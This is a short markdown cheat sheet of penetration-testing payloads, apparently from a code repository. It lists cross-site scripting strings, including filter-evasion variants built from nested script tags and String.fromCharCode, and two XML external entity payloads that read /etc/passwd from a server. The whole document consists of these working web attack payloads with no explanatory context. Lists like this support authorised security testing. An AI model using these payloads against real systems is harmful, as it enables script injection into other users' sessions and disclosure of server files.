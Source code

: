 # Pentest Payloads

## XSS
	<script>alert('XSS')</script>
	<scr<script>ipt>alert('XSS')</scr<script>ipt>
	"><script>alert('XSS')</script>
	"><script>alert(String.fromCharCode(88,83,83))</script>

## XXE
	<?xml version="1.0"?>
	  <!DOCTYPE data [
	  <!ELEMENT data (#ANY)>
	  <!ENTITY file SYSTEM "file:///etc/passwd">
	  ]>
	  <data>&file;</data>

	<?xml version="1.0" encoding="ISO-8859-1"?>
  	  <!DOCTYPE foo [  
  	  <!ELEMENT foo ANY >
  	  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
